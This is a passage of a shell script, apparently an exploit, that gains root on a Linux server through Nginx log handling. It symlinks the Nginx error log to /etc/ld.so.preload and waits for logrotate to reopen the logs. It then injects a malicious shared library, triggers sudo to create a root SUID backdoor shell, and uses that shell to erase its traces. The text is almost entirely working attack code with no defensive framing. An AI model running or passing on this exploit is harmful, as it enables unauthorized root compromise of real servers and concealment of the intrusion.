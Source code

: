 ```sh
echo -e "\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`"

# Safety check
if [ -f /etc/ld.so.preload ]; then
	echo -e "\n[!] /etc/ld.so.preload already exists. Exiting for safety."
	exit 2
fi

# Symlink the log file
rm -f $ERRORLOG && ln -s /etc/ld.so.preload $ERRORLOG
if [ $? -ne 0 ]; then
	echo -e "\n[!] Couldn't remove the $ERRORLOG file or create a symlink."
	cleanexit 3
fi
echo -e "\n[+] The server appears to be \033[94m(N)jinxed\033[0m (writable logdir) ! :) Symlink created at: \n`ls -l $ERRORLOG`"

# Make sure the nginx access.log contains at least 1 line for the logrotation to get triggered
curl http://localhost/ >/dev/null 2>/dev/null
# Wait for Nginx to re-open the logs/USR1 signal after the logrotation (if daily 
# rotation is enable in logrotate config for nginx, this should happen within 24h at 6:25am)
echo -ne "\n[+] Waiting for Nginx service to be restarted (-USR1) by logrotate called from cron.daily at 6:25am..."
while :; do 
	sleep 1
	if [ -f /etc/ld.so.preload ]; then
		echo $PRIVESCLIB > /etc/ld.so.preload
		rm -f $ERRORLOG
		break;
	fi
done

# /etc/ld.so.preload should be owned by www-data user at this point
# Inject the privesc.so shared library to escalate privileges
echo $PRIVESCLIB > /etc/ld.so.preload
echo -e "\n[+] Nginx restarted. The /etc/ld.so.preload file got created with web server privileges: \n`ls -l /etc/ld.so.preload`"
echo -e "\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload"
echo -e "\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`"
chmod 755 /etc/ld.so.preload

# Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)
echo -e "\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!"
sudo 2>/dev/null >/dev/null

# Check for the rootshell
ls -l $BACKDOORPATH
ls -l $BACKDOORPATH | grep rws | grep -q root
if [ $? -eq 0 ]; then 
	echo -e "\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`"
	echo -e "\n\033[94mThe server is (N)jinxed ! ;) Got root via Nginx!\033[0m"
else
	echo -e "\n[!] Failed to get root"
	cleanexit 2
fi

rm -f $ERRORLOG
echo > $ERRORLOG
 
# Use the rootshell to perform cleanup that requires root privilges
$BACKDOORPATH -p -c "rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB"
# Reset the logging to error.log
$BACKDOORPATH -p -c "kill -USR1 `pidof -s nginx`"
```